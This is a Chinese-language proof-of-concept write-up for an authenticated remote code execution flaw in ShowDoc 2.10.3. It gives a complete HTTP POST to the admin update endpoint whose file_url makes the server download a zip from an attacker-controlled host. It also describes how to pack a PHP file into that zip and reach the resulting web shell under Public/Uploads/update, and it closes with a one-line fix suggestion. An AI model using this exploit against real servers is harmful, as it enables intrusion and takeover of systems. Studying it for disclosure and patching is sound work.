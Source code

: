 # showDoc

## 0x01 后台Getshell

### 条件

* 登陆后台

### POC

```php
POST /showdoc-2.10.3/server/index.php?s=/api/adminUpdate/download HTTP/1.1
Host: 10.211.55.5
Content-Length: 66
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.80 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://10.211.55.5
Referer: http://10.211.55.5/showdoc-2.10.3/web/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=47uvgq7efm1ethua6a8podcse6; think_language=zh-CN; cookie_token=09d404934af99f9a7cafad11e061df0c23fc785a28781b655a152a7b1eb43000
Connection: origin

new_version=666&file_url=http://192.168.1.7:88/showdoc-666.zip


```

### 复现

![image-20220320134500300](imgs/image-20220320134500300.png)



只要构造zip压缩包的内容为：

![image-20220320143434758](imgs/image-20220320143434758.png)

其中.php文件可以为恶意内容，这里写入`web/index.php`内容为`<?php phpinfo(); ?>`

并压缩showdoc-666文件夹并重命名为 `showdoc-666.zip____`

发送poc请求，远程服务端响应

![image-20220320144402366](imgs/image-20220320144402366.png)

即可访问目标路径`http://xxx/Public/Uploads/update/web/index.php`即可getshell：

![image-20220320143921924](imgs/image-20220320143921924.png)



### 修复建议

1. 限制并制定`file_url`参数远程更新的url

